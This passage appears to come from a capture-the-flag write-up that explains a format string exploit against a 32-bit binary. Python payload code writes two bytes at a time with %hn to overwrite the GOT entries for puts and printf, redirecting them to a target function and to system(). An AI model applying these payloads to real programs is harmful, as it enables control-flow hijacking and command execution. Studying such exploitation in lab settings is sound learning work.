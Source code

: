 Output: 

![Screenshot from 2019-10-15 16-44-12](https://user-images.githubusercontent.com/37578272/66837077-16870f80-ef6b-11e9-8224-909efcecca0e.png)



Hmm, that's interesting. Similarly, if we write **printf("%134514091d", var)** we'll  have a so small argument/input and at the same time a huge output. 
So, we can write to memory an address like 0x080485ab. But, it takes time to print so many spaces. We are engineers and we can find a faster way to do this. 
We can write two bytes at a time. So first 85ab and then 0804. 
Before that, ofcourse we have to follow the same procedure as the previous challenge with format string attack:
  -add to the input the address that we want to overwrite
  -and then find when we hit this address. 
  
When we find those info we can start:

```python 
VULN = 0x080485ab
PUTS_PLT = 0x0804a01c
BEFORE_SYS = 0x80485dc
SYS_PLT = 0x804a020
SYSTEM = 0xf7e0fc00
PRINT_PLT = 0x804a010

payload1 = ''
payload1 += struct.pack("I", PUTS_PLT)
payload1 += struct.pack("I", PUTS_PLT+2) # this is the address for the next 2 bytes : 0804
payload1 += "%7$34211x" # 85ab =  34219 (Decimal) and we subtract 8 because we wrote 2 addresses before(8 bytes)
payload1 += "%7$hn"  # "7" is the times we want to print %x to find the address we want to modify. With 7$ we can hit it immediately.

# e.g. 
# int var1 = 1;
# int var2 = 2;
# printf("%2$d", var1, var2) will print '2'. 
# 'h' before n means to write only two bytes. Search it.
```

Great, we have 85ab inside puts@got.plt. 
We now want to write 0804 in PUTS_PLT + 2 but we've already wrote so many characters that %n alone will write a number bigger than 0804. 
What do you say about writing 10804? To do this, we first want to know how many characters we've already typed.
So, first we write something like : 
```python
payload1 += "%8$x"
payload1 += "%8$hn"
```
and then we have to subtract the number we see in the higher two bytes of got.plt address from 10804 to find the right number of spaces to add.

Exactly the same we have to do to change printf_plt address with system address. That's a version of the exploit. I have two versions in the repository.
The following makes use of pwntools.
